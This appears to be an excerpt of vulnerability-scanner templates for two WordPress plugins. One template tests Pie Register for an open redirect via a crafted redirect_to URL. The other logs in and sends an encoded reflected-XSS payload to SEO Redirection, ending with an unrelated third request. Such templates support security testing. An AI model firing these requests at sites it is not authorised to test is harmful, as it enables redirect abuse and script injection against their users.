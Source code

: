 **Type - status**
- status
    1. 200

---
# WordPress Pie Register \< 3.7.2.4 - Open Redirect
## Description
- WordPress Pie Register \< 3.7.2.4 is susceptible to an open redirect vulnerability because the plugin passes unvalidated user input to the wp_redirect() function.
- severity - low
- tags - redirect,wp-plugin,pieregister,wpscan,wordpress
## Requests
- Method - GET
### URL
- {{BaseURL}}/?piereg_logout_url=true&redirect_to=https://interact.sh
### Matchers

**Type - regex**
- part - header
- regex
    1. (?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]*)interact\.sh.*$

---
# WordPress SEO Redirection \<7.4 - Cross-Site Scripting
## Description
- WordPress SEO Redirection 7.4 does not escape the tab parameter before outputting it back in JavaScript code, leading to a reflected cross-site scripting vulnerability.

- severity - medium
- tags - wordpress,xss,wp-plugin,authenticated,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
POST /wp-admin/options-general.php?page=seo-redirection.php&tab=cutom HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

tab=%3C%2Fscript%3E%3Csvg%2Fonload%3Dalert%28%2FXSS%2F%29%3E

```
### Step - 3
```
GET /wp-admin/admin.php?page=wpda_duplicate_post_menu HTTP/1.1
```